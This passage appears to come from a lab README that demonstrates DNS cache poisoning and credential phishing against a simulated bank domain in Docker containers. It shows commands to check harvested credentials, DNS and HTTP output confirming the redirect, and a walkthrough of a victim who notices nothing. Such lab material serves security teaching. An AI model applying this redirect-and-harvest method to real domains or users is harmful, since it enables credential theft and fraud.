 #### Verify Credential Capture:
```bash
# Check captured credentials
docker exec attacker cat /data/creds.log

# Expected output:
# [YYYY-MM-DD HH:MM:SS] CAPTURED - IP: 10.0.0.10 | Username: victim@bank.lab | Password: mypassword123 | User-Agent: curl/...

# Access admin dashboard
docker exec victim curl http://www.bank.lab/admin
# Shows real-time credential capture interface
```

### Attack Success Indicators

#### 1. DNS Redirection Success:
```bash
# All bank traffic goes to attacker
$ docker exec victim nslookup www.bank.lab
Server: 10.0.0.20
Address: 10.0.0.20:53

Name: www.bank.lab
Address: 10.0.0.50  # ✓ Attacker's server
```

#### 2. HTTP Traffic Hijacking:
```bash
# Victim gets phishing content
$ docker exec victim curl -s http://www.bank.lab | grep -i "bank lab"
<title>Bank Lab - Secure Login</title>
<h1>🏦 Bank Lab</h1>
# ✓ Phishing page served
```

#### 3. Credential Harvesting:
```bash
# Attacker logs show capture
[12:34:56] 🎯 CREDENTIAL CAPTURED!
   Time: 2025-01-27 12:34:56
   IP: 10.0.0.10
   Username: victim@bank.lab
   Password: mypassword123
# ✓ Credentials stolen
```

### Real-World Impact Simulation

#### User Experience (Victim's Perspective):
1. **Types**: `www.bank.lab` in browser
2. **DNS Resolution**: Happens invisibly (poisoned cache)
3. **Website Loads**: Professional banking interface appears
4. **Login Process**: Enters credentials normally
5. **Success Message**: "Login successful, redirecting..."
6. **Redirection**: Taken to real bank website
7. **No Suspicion**: Everything appears normal
